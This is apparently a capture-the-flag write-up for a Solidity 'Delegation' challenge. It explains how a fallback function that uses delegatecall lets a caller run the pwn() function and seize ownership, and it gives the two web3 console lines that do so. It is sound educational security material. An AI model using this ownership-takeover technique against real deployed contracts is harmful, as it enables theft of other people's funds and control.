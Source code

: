# Delegation

## Problem

Claim claim ownership of provided instance of Delegation contract.

## Solution proposal

This is a good example to understand how delegatecall works, which is being used in fallback method of *Delegation* contract.

We just have to send function signature of `pwn` method from *Delegate* contract as `msg.data` to the fallback function of *Delegation* contract, that code of *Delegate* contract is actually executed in the context of *Delegation*, so, when `pwn` method is executed

```solidity
  function pwn() public {
    owner = msg.sender;
  }
```

Instead of update the `owner` property for *Delegate* contract, you will update the `owner` property of *Delegation* contract.

## Solution

So, first get encoded function signature of pwn, in console:

```js
signature = web3.eth.abi.encodeFunctionSignature("pwn()")
```

Then we send a transaction with signature as data, so that fallback gets called:

```js
await contract.sendTransaction({ from: player, data: signature })
```

After transaction is successfully mined player is the owner of Delegation.

## Usefull Links

[web3js sendTransaction](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#sendtransaction)
[solidity abi spec](https://docs.soliditylang.org/en/v0.8.13/abi-spec.html)
[Understanding delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how)
[delegatecall solidity-by-example](https://solidity-by-example.org/delegatecall/)

## Additional information

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
